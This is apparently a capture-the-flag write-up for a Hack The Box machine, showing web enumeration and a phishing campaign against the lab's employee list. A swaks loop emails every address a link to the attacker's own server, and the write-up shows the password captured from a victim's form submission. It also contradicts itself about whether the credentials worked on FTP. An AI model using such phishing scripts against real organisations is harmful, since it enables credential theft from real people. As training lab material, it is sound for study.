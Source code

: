# 10 - HTTP

# sneakycorp.htb
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ curl -I 10.10.10.197 
HTTP/1.1 301 Moved Permanently
Server: nginx/1.14.2
Date: Mon, 06 Sep 2021 12:37:35 GMT
Content-Type: text/html
Content-Length: 185
Connection: keep-alive
Location: http://sneakycorp.htb
```

The server redirects us to sneakycorp.htb. Let us add this vhost to our /etc/hosts file to continue.


# index.php
![](vx_images/2383294479653.png)


PyPi stands for The Python Package Index we will come to that later. For now let us focus on what we have on here. On the top right corner, there is a note telling users to expect an email for registration. That is actually a hint that users are really checking their emails so we can send some phishing emails. 

# team.php
![](vx_images/5358019316819.png)

team.php includes all the employee names along with their email addresses. We can send phishing emails to everybody listed here to see how they respond.


# clickme.sh
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ cat clickme.sh 
for i in $(cat emails.txt);
do
  swaks --to $i --from refika@sneakymailer.htb --server sneakymailer.htb --header 'Subject: Test' --body 'please click this link http://10.10.14.9/';
done
```

clickme.sh loops through all the emails and sends a link to every employee. Links are useful, if they click we will know their user agent at the very least.

# Paul Clicks The Link
![](vx_images/1285286712055.png)

Seemingly, paul did more than just click, he was expecting a link to register so he went ahead and sent all the information including his password to our malicious link.


# Password
```
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Credentials:

* paulbyrd: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht

At this point we should try these credentials on some of the services starting from ssh but it works neither on ssh nor ftp. There is only one service left and that is the mail server. 

# Credentials for developer
![](vx_images/5566558075245.png)

Yay! The credentials work only on ftp.



